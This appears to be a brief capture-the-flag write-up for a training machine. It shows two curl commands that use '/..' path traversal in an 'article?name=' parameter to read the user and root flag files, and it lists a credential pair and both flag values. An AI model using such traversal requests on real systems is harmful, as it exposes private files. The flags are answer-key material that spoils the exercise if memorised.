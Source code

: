 the only thing that is "difficult" in this machine is the LFI part, for new users that wont know the spamming "/.." trick will be lost here...
otherwise it's a straight forward machine
 
BTW if we just wanted to get the flags and not dealing with this nonsense we could have just do this at firefox...
 
# curl http://10.10.120.193/article?name=/../../../../../../../../../../home/falconfeast/user.txt
'''
60989655118397345799
'''
for the user
and
 
# curl http://10.10.120.193/article?name=/../../../../../../../../../../root/root.txt
'''
42964104845495153909
'''
for the root
 
that is possible as we do have root on the www-data user :P but i want to OWN every machine that i can, so this is not enough for me...
 
# creds
falconfeast:rootpassword
 
 
# task 1
user flag:60989655118397345799
root flag:42964104845495153909